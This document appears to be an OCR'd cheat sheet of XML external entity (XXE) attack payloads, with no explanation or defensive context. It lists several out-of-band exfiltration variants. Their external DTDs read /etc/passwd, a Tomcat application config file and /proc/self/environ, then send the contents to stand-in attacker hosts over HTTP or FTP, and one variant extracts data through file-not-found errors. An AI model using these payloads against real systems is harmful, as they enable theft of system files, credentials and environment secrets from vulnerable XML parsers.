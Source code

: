 ```xml
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/passwd">
<!ENTITY % sp SYSTEM "http://x.x.x.x:8080/ss5.dtd">
%sp;
%param3;
%exfil;
]>
<r></r>
## External dtd: ##

<!ENTITY % param1 '<!ENTITY &#x25; external SYSTEM "file:///nothere/%payload;">'> %param1; %external;


-----------------------------------------------------------------------
OoB extra nice
-----------------------------------------------------------------------
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % stuff SYSTEM "file:///usr/local/tomcat/webapps/customapp/WEB-INF/applicationContext.xml ">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://evil/evil.xml">
%dtd;
]>
<root>&all;</root>
 
## External dtd: ##
<!ENTITY all "%start;%stuff;%end;">

------------------------------------------------------------------
File-not-found exception based extraction
------------------------------------------------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>

## External dtd: ##

<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">

-------------------------^ you might need to encode this % (depends on your target) as: &#x25;

--------------
FTP
--------------
<?xml version="1.0" ?>
<!DOCTYPE a [ 
<!ENTITY % asd SYSTEM "http://x.x.x.x:4444/ext.dtd">
%asd;
%c;
]>
<a>&rrr;</a>


## External dtd ##
<!ENTITY % d SYSTEM "file:///proc/self/environ">
```